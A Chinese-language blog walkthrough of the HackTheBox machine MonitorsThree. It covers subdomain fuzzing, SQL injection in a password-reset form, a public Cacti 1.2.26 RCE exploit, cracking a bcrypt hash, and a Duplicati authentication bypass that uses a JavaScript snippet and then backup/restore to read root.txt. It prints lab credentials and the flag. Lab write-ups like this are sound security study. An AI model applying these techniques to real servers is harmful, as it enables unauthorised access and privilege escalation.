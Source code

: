 ```yaml
---
title: '[htb] MonitorsThree'
date: 2024-12-01 13:22 +0800
categories: [hack,HackTheBox]
tags: []
---
```


## information

```shell
╭─bamuwe@Mac ~/Desktop
╰─$ nmap -F monitorsthree.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-01 13:23 CST
Nmap scan report for monitorsthree.htb (10.10.11.30)
Host is up (0.24s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.13 seconds
```

## www-data

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image.png>)
> 网站截图

```shell
╭─bamuwe@Mac ~/Desktop/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26 ‹main›
╰─$ ffuf -u 'http://monitorsthree.htb/' -w ~/Documents/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'host:FUZZ.monitorsthree.htb' -fs 13560

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb/
 :: Wordlist         : FUZZ: /Users/bamuwe/Documents/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 13560
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 359ms]
```
子域名扫描发现子域cacti
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-1.png>)

发现是一个cacti管理页面，也根据版本号1.2.26找到了一个exp，但是exp的使用需要密码，我们没有密码。返回主域寻找密码。
> https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26?tab=readme-ov-file
主域有一个login功能，其中根据用户名找回密码的功能，通过尝试，确定有admin这个用户。

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-2.png>)
> 找回密码功能

请求包如下：
```http
POST /forgot_password.php HTTP/1.1
Host: monitorsthree.htb
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=t9ah401j2ql63i4qo8o7v6442t
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Origin: http://monitorsthree.htb
Referer: http://monitorsthree.htb/forgot_password.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 14

username=admin
```
这里的username参数存在sql注入，用sqlmap跑出来是一个延时注入，肥肠之慢，所以这里我直接跳了。
> https://github.com/maxzxc0110/hack-study/blob/dd7e143ac0327408f7814e544630b8526a73caf5/%E9%9D%B6%E5%9C%BA/HTB/MonitorsThree.md

得到账号密码**admin / greencacti2001** 
运行搜索到的exp得到www-data

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-3.png>)
> 运行截图
## marcus

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-4.png>)
> :/var/www/html/cacti/include/config.php
发现数据库账号密码**cactiuser / cactiuser**

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-5.png>)
> 数据库查询结构
得到marcus的密码hash。接下来尝试破解这个密码。

```shell
╭─bamuwe@Mac ~/Desktop
╰─$ john password ~/Documents/rockyou.txt
...etc
```

```shell
╭─bamuwe@Mac ~/Desktop
╰─$ cat /Users/bamuwe/.john/john.pot

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```
我这里已经破解过了。最终得到了 **marcus / 12345678910**

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-6.png>)
> 得到用户marcus

## root

```shell
marcus@monitorsthree:/var/www/html/cacti/include$ netstat -tunlp|grep 127.0.0.1
<w/html/cacti/include$ netstat -tunlp|grep 127.0.0.1
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:43519         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -
```
查看本地发现在监听8200端口，使用ssh转发出来。这里不能直接用ssh密码连接，但是可以使用marcus密钥连接。

```shell
╭─bamuwe@Mac ~/Desktop
╰─$ ssh -i id_rsa marcus@cacti.monitorsthree.htb -L 8200:127.0.0.1:8200                                                                                                 130 ↵
Last login: Sun Dec  1 04:31:28 2024 from 10.10.16.77
marcus@monitorsthree:~$
```
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-7.png>)
> http://127.0.0.1:8200

是一个Duplicati管理页面，跟第一个用户一样，我们没有密码，但是搜索可以发现这个管理系统存在登录绕过的方法。
> https://github.com/duplicati/duplicati/issues/5197

按照链接的方法，
1. 首先要获得Server_passphrase，并且从base64解密再转换到hex
```shell
marcus@monitorsthree:/opt/duplicati/config$ ls
CNSAQPFASC.sqlite  CTADPNHLTC.sqlite  Duplicati-server.sqlite  KBBPHOVTJE.sqlite  NKHUNJXXOX.backup  NKHUNJXXOX.sqlite  XKUQSLDDQX.sqlite  XWXJCJZHNE.sqlite  control_dir_v2
```
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-8.png>)
> Duplication-server.sqlite查询

得到**Server_passphrase=Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=**
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-10.png>)
> 解密转换

得到**59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a**

2. 其次要获得respond中的Nonce
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-9.png>)
> 劫持响应截图

3. 最后使用给出的这段js代码
```javascript
var saltedpwd = 'HexOutputFromCyberChef'; // Replace with the Hex output from step 6
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('NonceFromBurp') + saltedpwd)).toString(CryptoJS.enc.Base64); // Replace 'NonceFromBurp' with the intercepted nonce
console.log(noncedpwd);
```
修改对应参数
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-11.png>)
> js脚本运行截图，这里脚本参数最后多了一位，后续重新跑了一下，图就没有换了。

得到password参数，替换原有参数。这里有时候需要url编码，小部分情况不用编码也能成功。
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-13.png>)
> 请求包截图

![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-14.png>)
> Duplicati管理页面截图

Duplicati是一个类似文件备份的系统。我们使用平台功能把root.txt备份出来，在还原到我们能够读取到的地方即可。
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-15.png>)
> 备份

这里要注意的是我们选择的文件都应该是source目录下。
![alt text](<../assets/img/2024-12-01-[htb] MonitorsThree.assets/image-16.png>) 
> 还原

```shell
marcus@monitorsthree:~$ ls
manifest  root.txt  user.txt
marcus@monitorsthree:~$ cat root.txt
f62abaf8d1017898bed7335e21e9dd7d
marcus@monitorsthree:~$
```

## conclusion
- 考验信息收集能力，在立足点的突破中，不单单使用一个cve脚本一键提权，考察信息收集的思路，我们缺少什么信息，需要寻找什么信息。
- 信息收集的关注点不仅仅在当前版本的漏洞中，历史的漏洞也应该浏览。
- 有意思的靶机，特别是提权的部分，不依赖于现有的exp（本人脚本饺子🥟实锤）。



